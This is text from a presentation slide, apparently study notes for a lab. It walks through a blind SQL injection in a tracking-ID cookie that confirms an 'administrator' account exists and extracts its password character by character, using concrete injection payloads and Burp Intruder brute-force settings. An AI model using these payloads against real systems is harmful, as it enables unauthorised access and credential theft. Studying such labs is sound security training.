

4.Confirm that  username administrator exits on users table:
query--->SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2' AND (SELECT username from users 			where username='administrator')='administrator'—
	payload:' AND (SELECT username from users where username='administrator')='administrator'--
	administrator user exist…..
5.Enumerate password of the administrator user:
query--->SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2'
	AND (SELECT username from users where username='administrator' and LENGTH(password)>1)='administrator'--
To know exect password length use intruder: option--->select pass_length(1)->sniper
					    payload->number->1-50->start attack

Guess the 1st charecter of password:
query--->SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2'
	AND (SELECT substring(password,1,1)from users where username='administrator')='a'-- 				##(1=1st_cha;1=Only_one_cha)
	use Intruder:option->select pass_cha(a)->sniper
		 	   payload->brutefourcer->1-1->start attack
Next find 19 cha::::: intruder(clasterBomber)--->substring(password,1,1)(NUmber) countinue++

				 		 ='a'-(Bruterforcer)